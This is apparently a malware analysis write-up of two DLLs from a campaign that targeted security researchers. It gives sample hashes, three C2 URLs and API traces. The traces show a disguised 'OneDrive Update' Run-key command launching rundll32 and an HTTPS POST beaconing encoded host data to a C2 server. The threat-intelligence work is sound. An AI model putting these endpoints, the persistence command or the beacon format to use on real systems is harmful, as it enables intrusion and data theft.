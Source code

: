 SHA256 : 4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
SHA256 : A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855  
sample source : https://bazaar.abuse.ch/sample/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244/  
sample source : https://bazaar.abuse.ch/sample/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855/  
VT : https://www.virustotal.com/gui/file/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
VT : https://www.virustotal.com/gui/file/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855   

Report: https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/  

C2 :  
https://www.dronerc.it/shop_testbr/upload/upload.php  
https://transplugin.io/upload/upload.asp  
https://codevexillium.org/image/download/download.asp  

---

Initial DLL (4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244) is dropping and 'installing' and starting the 2nd DLL (A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855) through a basic persistency mechanism :  

```html
[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <RegSetValueExA> in [ADVAPI32.dll] 
[PAR] HKEY    hKey        : 0xf0 
[PAR] LPCTSTR lpValueName : 0x0000003DFD70EDB0
[STR]         -> "OneDrive Update"
[PAR] DWORD   dwType      : 0x1 (REG_SZ)
[PAR] BYTE    *lpData     : 0x0000003DFD70EEE0
            -> 0x0000003DFD70EEE0
[STR] -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[RET] 0x7ff9b1563879 in [cms_data_final.dll]

[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x0000003DFD70EEE0
[STR]                       -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x0
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x0000003DFD70CD30
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x0 
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x0000003DFD70CD10
[RET] 0x7ff9b156397d in [cms_data_final.dll]
```
--- 
There is then nothing much to observe through dynamic analysis :  

```html
[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <InternetConnectW> in [WININET.dll] 
[PAR] HINTERNET     hInternet      : 0xcc0010
[PAR] LPCWSTR       lpszServerName : 0x000000457D49CF40 ("transplugin.io")
[PAR] INTERNET_PORT nServerPort    : 443
[PAR] LPCWSTR       lpszUsername   : 0x0 (null)
[PAR] LPCWSTR       lpszPassword   : 0x0 (null)
[PAR] DWORD         dwService      : 0x3 (INTERNET_SERVICE_HTTP)
[PAR] DWORD         dwFlags        : 0x0 
[RET] 0x1800029f1

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpOpenRequestW> in [WININET.dll] 
[PAR] HINTERNET hConnect           : 0xcc0014
[PAR] LPCWSTR   lpszVerb           : 0x00000001800580D0 ("POST")
[PAR] LPCWSTR   lpszObjectName     : 0x000000457D49D920
[STR]           -> "/upload/upload.asp"
[PAR] LPCWSTR   lpszVersion        : 0x00000001800580B8
[STR]           -> "HTTP/1.0"
[PAR] LPCWSTR   lpszReferer        : 0x0 (null)
[PAR] LPCWSTR   *lplpszAcceptTypes : 0x0
[PAR] DWORD     dwFlags            : 0x803000 (INTERNET_FLAG_SECURE | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_IGNORE_CERT_CN_INVALID)
[RET] 0x180002a44

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpSendRequestW> in [WININET.dll] 
[PAR] HINTERNET hRequest         : 0xcc0018
[PAR] LPCWSTR   lpszHeaders      : 0x0 (null)
[PAR] DWORD     dwHeadersLength  : 0x0
[PAR] LPVOID    lpOptional       : 0x000000457F1868C0
[STR]           -> "XW=EZYNQE&XOHTN=NDkwMThYOU8zSWRuQjJONw==&EWKK=&HIXXEE=0&HPYYJD=52&JTMDLK=MgAwADIANQAtADAAMwAtADAANAAgADIAMQA6ADMANwA6ADM"
[STR]              "AOQA=&LSZRYMNDS=IPTDYCTZLUHNEJATJ&NONPECZ=FLOTMDRIMZIUQZZG"
[PAR] DWORD     dwOptionalLength : 0xb2
[RET] 0x18000314f
```
--- 

![Alt text](screen/crypto.jpg?raw=true "statically linked lib")

